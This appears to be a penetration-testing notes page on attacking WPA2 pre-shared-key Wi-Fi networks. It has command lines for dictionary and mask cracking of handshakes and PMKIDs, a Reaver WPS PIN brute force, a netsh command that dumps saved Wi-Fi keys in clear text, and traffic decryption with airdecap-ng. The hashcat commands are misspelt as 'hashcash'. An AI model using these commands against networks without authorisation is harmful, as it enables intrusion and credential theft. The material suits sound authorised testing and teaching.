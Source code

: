 # Attacking WPA2 Pre-Shared Key Networks

### Dictionary-Based Attacks

**Cowpatty** - Audits WPA2-PSK for weak PSK

* Slow/time consuming

![](<../../../.gitbook/assets/image (36).png>)

**aircrack-ng** (wpa/wpa2 psk dictionary attack)

```
aircrack-ng -w <wordlist> <pcap filename>
```

![](<../../../.gitbook/assets/image (59).png>)

![](<../../../.gitbook/assets/image (64).png>)

**Hashcat**

*   Requires hccapx file

    * Generated with **cap2hccapx**

    ```
    hashcash -m 16800 -a3 -w3 handshakes.pmkid '?d?d?d?d?d?d?d'
    ```

    ###

#### Hashcat Mask Attack

* Brute force a custom range of PSK values
* Can mix and match static values with brute force character set values
* Default MiFi Password : 8 Hex characters
  * 232 or 168 = 4.2 billion entries / about 90 minutes at 90K PSK/second

![](<../../../.gitbook/assets/image (43) (1).png>)

### PMKID Attack

![](<../../../.gitbook/assets/image (53).png>)

![](<../../../.gitbook/assets/image (42).png>)

```
sudo bettercap -iface wlan0

wlan0 >> wifi.recon on
wlan0 >> wifi.show

wlan0 >> wifi.assoc all

//convert pcap
hcxpcaptool -z handshakes.pmkid handshakes.pcap

//crack pmkid
hashcash -m 16800 -a3 -w3 handshakes.pmkid '?d?d?d?d?d?d?d'
```

### WPS PIN Attack

BruteForce

* WPS check the first 4 bytes, if the first part is wrong, the PIN is rejected.
* Doesn't require capturing pairing session or any interaction with AP
* Last byte is a checksum
  * 11,000 total WPS PINs

Active attack Tool **: Reaver**

```
reaver -i mon0 -b <BSSID MAC> -vv
```

Detecting WPS

* Wireshark filter: **wps.wifi**_**protected**_**setup\_state eq 0x02**

Passive Attack Tool**:** [**reaver-wps-fork-t6x**](https://github.com/t6x/reaver-wps-fork-t6x)****

* Observes DH exchange data
* &#x20;**https://github.com/t6x/reaver-wps-fork-t6x**&#x20;
* Outputs data to be used in **pixiewps (**[**https://github.com/wiire-a/pixiewps**](https://github.com/wiire-a/pixiewps)**)**

### Dump PNL pre-shared key

```
netsh wlan show profiles name='Profile Name' key=clear
```

### Decrypt WPA2 traffic dump

* Capture needs to include 4-way handshake
* You must also know the:
  * pre-shared key
  * SSID
  * this is because the PTK must be generated since it is different for each client

```
airdecap-ng -p <pre-shared key> -e <SSID> <packetdump>.dump
```

### KRACK attack (Key re-installation attack)

{% embed url="https://www.krackattacks.com" %}

* Captures and replaying step 3

### KR00K Attack

* r00kie-kr00kie.py - Automated Kr00k attack or examination of pcap files to see if we ever captured the necessary material for a Kr00k attack.

![](<../../../.gitbook/assets/image (49).png>)

![](<../../../.gitbook/assets/image (74).png>)

![](<../../../.gitbook/assets/image (72).png>)

{% embed url="https://www.welivesecurity.com/wp-content/uploads/2020/02/ESET_Kr00k.pdf" %}
